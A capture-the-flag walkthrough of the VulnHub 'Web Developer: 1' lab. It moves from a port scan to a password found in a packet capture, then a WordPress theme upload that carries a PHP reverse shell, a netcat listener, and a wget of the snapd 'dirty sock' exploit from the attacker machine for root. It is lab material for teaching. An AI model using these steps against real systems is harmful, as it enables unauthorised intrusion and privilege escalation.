 ### target:			Web Developer: 1 by Fred Wemeijer

### hosted by:			vulnhub.com 

### virtualization software: 	virtualbox 

### testing platform:		kali linux 2017 

### walkthrough by:		worzel_gummidge 



**nmap** is used to find the target and perform a port scan of the target.

```bash
nmap 192.168.56.101 -T5 -A -sC -p- -n
```


2 open ports are discovered: *tcp22(ssh)* and *tcp80(http)*.

the attacker runs a **dirb** scan on *tcp80*.

```bash
dirb http://192.168.56.101
```


**dirb** locates a directory named ipdata. in this directory the attacker finds a file named analyze.cap. the file contains captured network packets. using **wireshark** the attacker is able to analyze the file and finds user webdeveloper's url encoded password.

![Screenshot of webdeveloper's url encoded password](assets/1.png "wedeveloper's password")


the attacker is able to login to the Wordpress dashboard as user webdeveloper. to create a new Wordpress theme, the attacker zips together style.css, index.php, comments.php, header.php and screenshot.png. the comments.ph file is left empty. the index.php file has the following code:

```php
<?php get_header(); ?>
```

style.css:

```css
/*
	Theme Name:		Pwn
	Description:		Pawnage
	Author:			PwnMaster
	Version:		1.0
	License:		Pwn's
	License URI:		Pwn's
	Tags:			shell
	Text Domain:		pwn-theme
*/
```

the attacker copies /usr/share/webshells/php/php-reverse-shell.php to header.php and edits the file to point at his attacking machine and port:

```bash
cat /usr/share/webshells/php/php-reverse-shell.php > header.php
```

the attacker uploads the zip file containing all the files mentioned before as a "new theme" from the dashboard and sets up a reverse handler is set using **netcat**

```bash
nc -lvnp 1234
```

![Screenshot of the new Wordpress theme](assets/2.png "new pwnage theme")


to trigger the exploit, the attacker clicks on the "live preview" button of the new theme.

![Screenshot of shell](assets/3.png "we got shell!")


while exploring the file system, the attacker finds a snap directory. to get the version of snapd running on the system, the attacker enters the command:

```bash
snap --version
```

a quick search on searchsploits shows that the running version may be vulnerable to a privilege escalation attack. the attacker then serves up the exploit using python3 and downloads it on the victim machine using **wget**.

```bash
python3 -m http.server
```

```bash
wget http://192.168.56.102:8000/46362.py
```


to execute the "dirty socks" exploit the attacker runs the python script and then uses the new credentials to login as the dirty_socks user.

![screenshot of exploit output](assets/4.png "exploit successful")

```bash
su dirty_socks
```

to read the flag

```bash
sudo cat /root/flag.txt
```

![Screenshot of flag.txt](assets/5.png "root privs")

